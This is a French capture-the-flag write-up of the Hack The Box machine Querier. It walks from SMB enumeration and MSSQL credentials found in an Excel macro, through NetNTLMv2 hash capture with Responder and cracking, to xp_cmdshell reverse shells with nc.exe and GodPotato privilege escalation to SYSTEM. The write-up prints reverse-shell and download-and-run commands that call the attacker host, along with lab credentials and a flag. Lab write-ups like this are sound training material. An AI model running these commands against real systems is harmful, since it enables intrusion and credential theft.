

Querier est une machine Windows de difficulté moyenne possédant une feuille de calcul Excel dans un partage de fichiers accessible à tous. La feuille de calcul contient des macros qui se connectent à un serveur MSSQL fonctionnant sur la machine. Le serveur SQL peut être utilisé pour demander un fichier permettant de capturer et craquer des hashes NetNTLMv2 afin de récupérer le mot de passe en clair. Après connexion, `PowerUp` peut être utilisé pour trouver les identifiants Administrateur dans un fichier de stratégie de groupe mis en cache localement.

## Enumération
### Scan de ports

Le scan `nmap` révèle 14 ports ouverts : `SMB`, `MSSQL`, `WINRM`, ainsi que d'autres ports Windows.

```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  nmap 10.129.181.104 -T4 -A --min-rate=1000 -vv -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-20 23:05 CEST
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2025-07-20T21:10:42+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-20T21:03:18
| Not valid after:  2055-07-20T21:03:18
| MD5:   5466d4fc6e8293f0a280ca0d9b4fc2bf
| SHA-1: c8f9d7a9d65be37878ea4bc4106d02f904973952
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQfRL97hXcIbNAdzXRdqRG2DANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUwNzIwMjEwMzE4WhgPMjA1NTA3MjAyMTAzMThaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM7zNp1i
| BBDdzDwYiu6VDXgFsiv3nkg2zrAeSVKiWZr+rHna/vh1asIIccaHF1JahiimeF9O
| MqwiQqS/DfrdvK6UVpLgFz2t0rcPC/Vqs/dnxvK+G5ihtdCxom2ccDI7Str7fq72
| eeieRT18TsVp/r9LiMkmAnffha7zD55/KX5pntfCZhFOyVMO8OvKP4rvBaf9yamg
| 3CVXO+QUrQ5V1m2BBCkIidESoc4uGVQXLYokai3Be+24PJvABJdULm3F8FhFxJNv
| 7fjF9KFWkB6/nUH4A3/Q5eXgvNYKc/wTbg3SDKV8iM/q+43GmWLXBLTYCFzqu9Tz
| cn45qvhKAlyZNIkCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEADTGOs8a6x8dOOmL6
| pFZDWpst4Nfbp4NtX4+BEG/RGOnGTnXVjZIBc2JvFsq+1M0h2ATV2zGuEZIHyvdO
| eDuwuBE3SH2kdOQI/oeSWFo1eBAroqbW7AGOAunZ4NkuPc6OhpW8Kq27xjewRDfK
| WHXYyWCnZBtSXylfhSQff1R2XykuEMhyqYSCyiwh9T27Sx/9BBWe7imaqhlV9aed
| ohqwLj9/MpjRxKFj1pqCXxeDQfdeDXyi4pfMd/ox2YQc3wj379Oq0XzT5fhUR9Yk
| seTkehAzg6M4/QL4wJIfXMMNLQCnbwYOwZjaoYM3gesuCslmV+OF1AKY62svb+Bo
| lbvlJQ==
|_-----END CERTIFICATE-----
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/20%OT=135%CT=2%CU=36618%PV=Y%DS=2%DC=T%G=Y%TM=687D5B
OS:52%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M552NW8NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NN
OS:S%O6=M552NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O
OS:=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 11069/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4055/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34595/udp): CLEAN (Timeout)
|   Check 4 (port 44373/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2025-07-20T21:10:35
|_  start_date: N/A
```

### Enumération de SMB(445)

L'énumération de partages ne donne rien, mais je récupère le nom de domaine ainsi que le FQDN de la machine.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  nxc smb 10.129.181.104 -u '' -p '' --shares
SMB         10.129.181.104  445    QUERIER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.181.104  445    QUERIER          [+] HTB.LOCAL\:
SMB         10.129.181.104  445    QUERIER          [-] Error enumerating shares: STATUS_ACCESS_DENIED

╭─root@exegol-hackthebox /workspace/Querier
╰─➤  nxc smb 10.129.181.104 -u 'Guest' -p '' --shares
SMB         10.129.181.104  445    QUERIER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.181.104  445    QUERIER          [-] Connection Error: The NETBIOS connection with the remote host timed out.
```

Je les ajoute au fichier `/etc/hosts` de ma machine.
```
echo "10.129.181.104 htb.local querier.htb.local querier" | tee -a /etc/hosts
```


La j'avoue que je comprend pas pourquoi mais avec `netexec` n'arrivait pas à me lister les différents partages. De même avec `RPCClient`. En tout cas, j'ai pour l'habitude de tester plusieurs outils lors de mon énumération. Et donc avec `smbclient`, je trouve en tant qu'anonyme le partage `Reports`.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  smbclient -L //querier.htb.local -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reports         Disk
```

J'accède au partage en tant qu'`anonymous` avec l'option `-N` pour ne pas avoir à entrer les identifiants. Je télécharge alors le fichier s'y trouvant. Je vois qu'il s'agit d'une fichier EXCEL.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  smbclient -N //querier.htb.local/Reports
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jan 29 00:23:48 2019
  ..                                  D        0  Tue Jan 29 00:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019

                5158399 blocks of size 4096. 850009 blocks available
smb: \> get "Currency Volume Report.xlsm"
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (20.4 KiloBytes/sec) (average 20.4 KiloBytes/sec)
smb: \> exit

╭─root@exegol-hackthebox /workspace/Querier
╰─➤  file Currency\ Volume\ Report.xlsm
Currency Volume Report.xlsm: Microsoft Excel 2007+
```

### Analyse du fichier EXCEL
J'ai ouvert le fichier et je vois qu'il est vide.


Je décide alors de regarder un peu plus en profondeur le fichier avec la commande `strings`. Je remarque alors qu'il s'agit en fait d'une archive contenant plusieurs fichiers XML.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  strings Currency\ Volume\ Report.xlsm
[<snip>
[Content_Types].xmlPK
_rels/.relsPK
;O6-
xl/workbook.xmlPK
xl/_rels/workbook.xml.relsPK
xl/worksheets/sheet1.xmlPK
xl/theme/theme1.xmlPK
xl/styles.xmlPK
xl/vbaProject.binPK
docProps/core.xmlPK
docProps/app.xmlPK
```

Je dézippe alors le fichier avec `7z`.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  7z x /Currency\ Volume\ Report.xlsm

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs AMD Ryzen 7 5825U with Radeon Graphics          (A50F00),ASM,AES-NI)

Scanning the drive for archives:
1 file, 12229 bytes (12 KiB)

Extracting archive: ../Currency Volume Report.xlsm
--
Path = ../Currency Volume Report.xlsm
Type = zip
Physical Size = 12229

Everything is Ok

Files: 10
Size:       26828
Compressed: 12229

╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  tree
.
├── [Content_Types].xml
├── docProps
│   ├── app.xml
│   └── core.xml
├── _rels
└── xl
    ├── _rels
    │   └── workbook.xml.rels
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── vbaProject.bin
    ├── workbook.xml
    └── worksheets
        └── sheet1.xml
```

Dans le fichier `xl/workbook.xml`, je trouve un potentiel utilisateur valide `Luis`.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  strings xl/workbook.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<snip>
Requires="x15"><x15ac:absPath url="C:\Users\Luis\Desktop\"
<snip>
```

Puis dans le fichier `xl/vabProject.bin`, je trouve ce qui semble être les identifiants de la base de données `reporting:PcwTWTHRwryjc$c6`.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  strings xl/vbaProject.bin
<snip>
Set rs = conn.Execute("SELECT * @@version;")
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
<snip>
```

Je vérifie la validité des identifiant avec `netxec` mais cela ne semble pas être la bonne combinaison. Je teste alors le mot de passe avec `luis` et `sa` (utilisateur par défaut de MSSQL), mais il semble qu'aucun d'entre eux ne soit le propriétaire de ce mot de passe.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  nxc mssql querier.htb.local -u 'reporting' -p 'PcwTWTHRwryjc$c6' --local-auth
MSSQL       10.129.181.104  1433   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
MSSQL       10.129.181.104  1433   QUERIER          [-] QUERIER\reporting:PcwTWTHRwryjc$c6 (Login failed for user 'reporting'. Please try again with or without '--local-auth')

╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  nxc smb querier.htb.local -u 'luis' -p 'PcwTWTHRwryjc$c6'
SMB         10.129.181.104  445    QUERIER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.181.104  445    QUERIER          [-] HTB.LOCAL\luis:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  nxc mssql querier.htb.local -u 'luis' -p 'PcwTWTHRwryjc$c6'
MSSQL       10.129.181.104  1433   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
MSSQL       10.129.181.104  1433   QUERIER          [-] HTB.LOCAL\luis:PcwTWTHRwryjc$c6 (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  nxc mssql querier.htb.local -u 'luis' -p 'PcwTWTHRwryjc$c6' --local-auth
MSSQL       10.129.181.104  1433   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
MSSQL       10.129.181.104  1433   QUERIER          [-] QUERIER\luis:PcwTWTHRwryjc$c6 (Login failed for user 'luis'. Please try again with or without '--local-auth')
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  nxc mssql querier.htb.local -u 'sa' -p 'PcwTWTHRwryjc$c6' --local-auth
MSSQL       10.129.181.104  1433   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
MSSQL       10.129.181.104  1433   QUERIER          [-] QUERIER\sa:PcwTWTHRwryjc$c6 (Login failed for user 'sa'. Please try again with or without '--local-auth')
```

### Enumération de MSSQL(1433)

Je décide alors de tester les identifiants directement avec `mssqlclient`. Cela fonctionne, j'arrive à me connecter avec les identifiants trouvees dans le fichier `xl/vabProject.bin`.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  mssqlclient.py 'reporting':'PcwTWTHRwryjc$c6'@'querier.htb.local' -windows-auth                                                      130 ↵
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    upload {from} {to}         - uploads file {from} to the SQLServer host {to}
    show_query                 - show query
    mask_query                 - mask query

SQL (QUERIER\reporting  reporting@volume)>
```

Franchement je ne sais pas ce qu'il se passait avec `netexec` pendant que j'attaquait cette machine.


Je n'ai pas les droits pour activer l'exécution de commande à distance. Mais je vois que je peux utiliser `xp_dirtree`. Donc je lance `responder` et avec `xp_dirtree` j'essais d'énumérer les fichiers d'un partage fictif cree par `responder` sur ma machine.
```bash
SQL (QUERIER\reporting  reporting@volume)> enable_xp_cmdshell;
ERROR(QUERIER): Line 105: User does not have permission to perform this action.
ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree //10.10.14.89/fakeshare
subdirectory   depth   file
------------   -----   ----
SQL (QUERIER\reporting  reporting@volume)>
```


Je récupère alors le hash NTLM de l'utilisateur `mssql-svc`.
```bash
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

<snip>

[SMB] NTLMv2-SSP Client   : 10.129.181.104
[SMB] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMB] NTLMv2-SSP Hash     : mssql-svc::QUERIER:1122334455667788:EB2657DD2F736F0C9A49BA77A475B9DA:010100000000000080A71E50D8F9DB01CE17D781461E4DDB0000000002000800570035004D005A0001001E00570049004E002D004A004E004E005000450031004100420037004500390004003400570049004E002D004A004E004E00500045003100410042003700450039002E00570035004D005A002E004C004F00430041004C0003001400570035004D005A002E004C004F00430041004C0005001400570035004D005A002E004C004F00430041004C000700080080A71E50D8F9DB0106000400020000000800300030000000000000000000000000300000684142AB12D3574039A7D64286DFF0AADB9974DF8DF5B9E27BE8AF601A0533DA0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0038003900000000000000000000000000
```

Je crack alors le hash avec `john` et je trouve le mot de passe `corporate568`.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  john --wordlist=/usr/share/wordlists/rockyout.txt mssql-svc.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:01 DONE (2025-07-21 00:52) 0.6289g/s 5636Kp/s 5636Kc/s 5636KC/s cosmicman5..coreyny
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

La je vois que je ne pas avoir de shell avec `mssql-svc`. A ce stade je ne sais pas si c'est `netexec` qui me joue des tours, mais bon, j'avance. J'ai d'autres possibilités d'avoir un shell.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  nxc winrm querier.htb.local -u 'mssql-svc' -p 'corporate568'
WINRM       10.129.181.104  5985   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
WINRM       10.129.181.104  5985   QUERIER          [-] HTB.LOCAL\mssql-svc:corporate568
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  nxc mssql querier.htb.local -u 'mssql-svc' -p 'corporate568'
MSSQL       10.129.181.104  1433   QUERIER          [*] Windows 10 / Server 2019 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
MSSQL       10.129.181.104  1433   QUERIER          [-] HTB.LOCAL\mssql-svc:corporate568 (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
```

Je me connecte avec `mssqlclient` avec les nouveaux identifiants `mssql-svc:corporate568`. Puis j'active l'exécution de code à distance avec la commande `enable_xp_cmdshell`.
```bash
╭─root@exegol-hackthebox /workspace/Querier
╰─➤  mssqlclient.py 'mssql-svc':'corporate568'@'querier.htb.local' -windows-auth -db volume
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\mssql-svc  dbo@volume)> xp_cmdshell whoami
ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (QUERIER\mssql-svc  dbo@volume)> enable_xp_cmdshell;
INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (QUERIER\mssql-svc  dbo@volume)> xp_cmdshell whoami
output
-----------------
querier\mssql-svc

NULL

SQL (QUERIER\mssql-svc  dbo@volume)>
```

## Shell en tant que mssql-svc

Je n'ai pas réussi à avoir de shell avec des payloads reverse shell simple comme avec PowerShell. Du coup en regardant le writeup de [0xdf](https://0xdf.gitlab.io/2019/06/22/htb-querier.html#shell-as-mssql-svc), j'ai découvert une nouvelle méthode à ajouter à mon arsenal.
Sur un premier terminal je lancer un serveur SMB avec la commande suivante pointant vers un répertoire dans lequel j'y ai mis `nc.exe`. Dans le second je lance mon listener.
```
smbserver.py -smb2support share smb
```

Enfin sur le troisième je lance la commande suivante. Elle a pour but d'accéder à mon partage et d'exécuter le fichier `nc.exe` avec les arguments pour un reverse shell.
```
 xp_cmdshell \\10.10.14.89\share\nc.exe -e cmd.exe 10.10.14.89 1234
```


## Shell en tant qu'administrateur
### SeImpersonatePrivilege

En regardant les privilèges de `mssql-svc`, je vois qu'il possède le privilège `SeImpersonatePrivilege` qui lui permet de se faire passer pour n'importe quel utilisateur.
```bash
C:\Windows\Temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Windows\Temp>powershell
powershell

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\Temp>
```

### GodPotato

Cette attaque peut se faire avec un outils appelé [GodPotato](https://github.com/BeichenDream/GodPotato) et `nc.exe`. Donc je telecharge sur la machine cible les deux exécutable puis je lance la commande me permettant d'obtenir un reverse shell en tant que l'utilisateur qui sera usurpé (normalement l'administrateur).
```
PS C:\> mkdir temp
mkdir temp


    Directory: C:\


Mode                LastWriteTime         Length Name                                          
----                -------------         ------ ----                                          
d-----        7/21/2025  12:35 AM                temp                                          
PS C:\> cd temp
cd temp

PS C:\temp> wget http://10.10.14.89:8000/gp.exe -o gp.exe
wget http://10.10.14.89:8000/gp.exe -o gp.exe
PS C:\temp> wget http://10.10.14.89:8000/nc.exe -o nc.exe
wget http://10.10.14.89:8000/nc.exe -o nc.exe

PS C:\temp> ./gp.exe -cmd "C:\temp\nc.exe -e cmd.exe 10.10.14.89 4444"                    
./gp.exe -cmd "C:\temp\nc.exe -e cmd.exe 10.10.14.89 4444"
[*] CombaseModule: 0x140712287731712
[*] DispatchTable: 0x140712290045136
[*] UseProtseqFunction: 0x140712289423456
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\8410b743-89b2-4de4-a064-56176ea3b7ad\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009802-1768-ffff-1f29-528bb8215136
[*] DCOM obj OXID: 0x65ef5b793eb619b6
[*] DCOM obj OID: 0xd15b4f95fa5a3953
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 840 Token:0x812  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 461
```

J'obtiens alors un shell en tant qu'administrateur du domaine.
```
╭─root@exegol-hackthebox /workspace/Querier/smb
╰─➤  rlwrap nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.181.104.
Ncat: Connection from 10.129.181.104:49687.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>cd /users/administrator/desktop
cd /users/administrator/desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
af13b2192b695be76962a6fb99103c62
```
